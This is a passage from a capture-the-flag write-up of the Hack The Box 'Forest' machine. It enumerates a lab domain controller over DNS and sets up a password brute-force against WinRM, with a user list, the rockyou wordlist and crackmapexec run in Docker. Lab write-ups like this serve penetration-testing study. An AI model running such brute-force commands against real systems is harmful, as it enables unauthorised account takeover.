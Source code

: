 Yep, this is definitely a DC. Check the domain using DNS:

```bash
nslookup
set type=ANY
server 10.10.10.161
_ldap._tcp.dc._msdcs.htb.local
forest.htb.local
```

![dns1](./forest/dns1.png)

So the owner of the `htb.local` domain is `10.10.10.161` with the name `forest.htb.local`. Looking at the output from the full TCP `nmap` scan does not show any non-DC related ports that could be targeted... From here the options are to try bruteforcing the users over WinRM using `crackmapexec`:

- https://mpgn.gitbook.io/crackmapexec/getting-started/installation/installation-for-docker
- **NOTE:** UGH! Had issues running the default Kali install of `crackmapexec` due to some `RuntimeWarning: greenlet.greenlet` error? However, using the Docker one works well...

```bash
# create list of users
echo 'svc-alfresco'   > users.txt
echo 'andy'          >> users.txt
echo 'lucinda'       >> users.txt
echo 'mark'          >> users.txt
echo 'santi'         >> users.txt
echo 'sebastien'     >> users.txt
echo 'Administrator' >> users.txt
# copy over the word list 
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
# download and run the container
sudo docker run -it --entrypoint=/bin/sh --name crackmapexec -v ~/.cme:/root/.cme -v $(pwd):/htb byt3bl33d3r/crackmapexec
# start bruteforce
cme winrm 10.10.10.161 -u /htb/users.txt -p /htb/rockyou.txt
```
